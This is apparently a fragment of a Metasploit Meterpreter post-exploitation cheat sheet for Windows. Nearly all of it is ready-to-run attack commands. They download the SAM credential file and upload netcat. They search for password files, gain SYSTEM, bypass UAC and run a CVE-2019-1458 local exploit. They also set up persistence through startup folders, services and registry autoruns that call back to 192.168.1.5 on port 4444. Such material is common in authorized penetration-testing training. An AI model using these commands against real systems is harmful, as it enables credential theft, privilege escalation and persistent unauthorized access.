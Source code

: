 ### File Operations

```bash
# Download files
download C:\\Windows\\repair\\sam /home/kali/sam

# Upload files
upload /home/kali/nc.exe C:\\Windows\\Temp\\

# Search for files
search -f *.txt
search -f password.txt
```

### Access Elevation

```bash
# Attempt to get SYSTEM privileges
getsystem

# Check for UAC
run post/windows/gather/win_privs

# Bypass UAC
run post/windows/escalate/bypassuac
```

## Post-Exploitation with Meterpreter

### Privilege Escalation

```bash
# Run built-in privilege escalation checks
run post/multi/recon/local_exploit_suggester

# Check for common vulnerabilities
run post/windows/gather/enum_patches

# Escalate with a local exploit
run exploit/windows/local/cve_2019_1458
```

### Persistence Mechanisms

```bash
# Create persistence with startup folder
run persistence -A -L C:\\ -X -i 60 -p 4444 -r 192.168.1.5

# Create a service
run post/windows/manage/persistence_service

# Use registry autorun
run post/windows/manage/persistence
```
